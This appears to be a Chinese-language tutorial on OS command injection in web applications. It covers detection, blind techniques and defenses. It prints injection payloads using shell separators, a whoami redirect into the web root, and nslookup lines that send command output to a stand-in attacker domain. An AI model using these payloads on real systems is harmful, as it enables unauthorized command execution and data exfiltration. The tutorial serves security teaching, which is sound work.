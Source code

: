 # web 安全之 OS command injection


# OS command injection

在本节中，我们将解释什么是操作系统命令注入，描述如何检测和利用此漏洞，为不同的操作系统阐明一些有用的命令和技术，并总结如何防止操作系统命令注入。

![os command injection](https://raw.githubusercontent.com/RifeWang/images/master/web-security/os-command-injection.png)


## 什么是操作系统命令注入

OS 命令注入（也称为 shell 注入）是一个 web 安全漏洞，它允许攻击者在运行应用程序的服务器上执行任意的操作系统命令，这通常会对应用程序及其所有数据造成严重危害。并且，攻击者也常常利用此漏洞危害基础设施中的其他部分，利用信任关系攻击组织内的其他系统。


## 执行任意命令

假设某个购物应用程序允许用户查看某个商品在特定商店中是否有库存，此信息可以通过以下 URL 获取：
```
https://insecure-website.com/stockStatus?productID=381&storeID=29
```

为了提供返回信息，应用程序必须查询各种遗留系统。由于历史原因，此功能通过调用 shell 命令并传递参数来实现如下：
```
stockreport.pl 381 29
```

此命令输出特定商店中某个商品的库存信息，并将其返回给用户。

由于应用程序没有对 OS 命令注入进行防御，那么攻击者可以提交类似以下输入来执行任意命令：
```
& echo aiwefwlguh &
```

如果这个输入被当作 productID 参数，那么应用程序执行的命令就是：
```
stockreport.pl & echo aiwefwlguh & 29
```

`echo` 命令就是让提供的字符串在输出中显示的作用，其是测试某些 OS 命令注入的有效方法。`&` 符号就是一个 shell 命令分隔符，因此上例实际执行的是一个接一个的三个单独的命令。因此，返回给用户的输出为：
```
Error - productID was not provided
aiwefwlguh
29: command not found
```

这三行输出表明：
- 原来的 `stockreport.pl` 命令由于没有收到预期的参数，因此返回错误信息。
- 注入的 `echo` 命令执行成功。
- 原始的参数 29 被当成了命令执行，也导致了异常。

将命令分隔符 `&` 放在注入命令之后通常是有用的，因为它会将注入的命令与注入点后面的命令分开，这减少了随后发生的事情将阻止注入命令执行的可能性。


## 常用的命令

当你识别 OS 命令注入漏洞时，执行一些初始命令以获取有关系统信息通常很有用。下面是一些在 Linux 和 Windows 平台上常用命令的摘要：

|  命令含义   |  Linux  |   Windows  |
| :-- | :-- | :-- |
|  显示当前用户名   |   whoami   |  whoami   |
|  显示操作系统信息   |   uname -a   |  ver   |
|  显示网络配置   |   ifconfig   |  ipconfig /all   |
|  显示网络连接   |   netstat -an  |  netstat -an   |
|  显示正在运行的进程   |   ps -ef   |  tasklist   |



## 不可见 OS 命令注入漏洞

许多 OS 命令注入漏洞都是不可见的，这意味着应用程序不会在其 HTTP 响应中返回命令的输出。 不可见 OS 命令注入漏洞仍然可以被利用，但需要不同的技术。

假设某个 web 站点允许用户提交反馈信息，用户输入他们的电子邮件地址和反馈信息，然后服务端生成一封包含反馈信息的电子邮件投递给网站管理员。为此，服务端需要调用 mail 程序，如下：
```
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

mail 命令的输出并没有作为应用程序的响应返回，因此使用 echo 负载不会有效。这种情况，你可以使用一些其他的技术来检测漏洞。


### 基于延时检测

你可以使用能触发延时的注入命令，然后根据应用程序的响应时长来判断注入的命令是否被执行。使用 `ping` 命令是一种有效的方式，因为此命令允许你指定要发送的 ICMP 包的数量以及命令运行的时间：
```
& ping -c 10 127.0.0.1 &
```

这个命令将会 ping 10 秒钟。


### 重定向输出

你可以将注入命令的输出重定向到能够使用浏览器访问到的 web 目录。例如，应用程序使用 /var/www/static 路径作为静态资源目录，那么你可以提交以下输入：
```
& whoami > /var/www/static/whoami.txt &
```

`>` 符号就是输出重定向的意思，上面这个命令就是把 whoami 的执行结果输出到 /var/www/static/whoami.txt 文件中，然后你就可以通过浏览器访问 `https://vulnerable-website.com/whoami.txt` 查看命令的输出结果。


### 使用 OAST 技术

使用 OAST 带外技术就是你要有一个自己控制的外部系统，然后注入命令执行，触发与你控制的系统的交互。例如：
```
& nslookup kgji2ohoyw.web-attacker.com &
```

这个负载使用 `nslookup` 命令对指定域名进行 DNS 查找，攻击者可以监视是否发生了指定的查找，从而检测命令是否成功注入执行。

带外通道还提供了一种简单的方式将注入命令的输出传递出来，例如：
```
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

这将导致对攻击者控制的域名的 DNS 查找，如：
```
wwwuser.kgji2ohoyw.web-attacker.com
```


## 注入 OS 命令的方法

各种 shell 元字符都可以用于执行 OS 命令注入攻击。

许多字符用作命令分隔符，从而将多个命令连接在一起。以下分隔符在 Windows 和 Unix 类系统上均可使用：
- `&`
- `&&`
- `|`
- `||`

以下命令分隔符仅适用于 Unix 类系统：
- `;`
- 换行符（`0x0a` 或 `\n`）

在 Unix 类系统上，还可以使用 <code>`</code> 反引号和 <code>$</code> 符号在原始命令内注入命令内联执行：
- <code>`</code>
- `$`


需要注意的是，不同的 shell 元字符具有细微不同的行为，这些行为可能会影响它们在某些情况下是否工作，以及它们是否允许在带内检索命令输出，或者只对不可见 OS 利用有效。

有时，你控制的输入会出现在原始命令中的引号内。在这种情况下，您需要在使用合适的 shell 元字符注入新命令之前终止引用的上下文（使用 `"` 或 <code>'</code>）。


## 如何防御 OS 命令注入攻击

防止 OS 命令注入攻击最有效的方法就是永远不要从应用层代码中调用 OS 命令。几乎在对于所有情况下，都有使用更安全的平台 API 来实现所需功能的替代方法。

如果认为使用用户提供的输入调用 OS 命令是不可避免的，那么必须执行严格的输入验证。有效验证的一些例子包括：
- 根据允许值的白名单校验。
- 验证输入是否为数字。
- 验证输入是否只包含字母数字字符，不包含其它语法或空格。

不要试图通过转义 shell 元字符来清理输入。实际上，这太容易出错，且很容易被熟练的攻击者绕过。
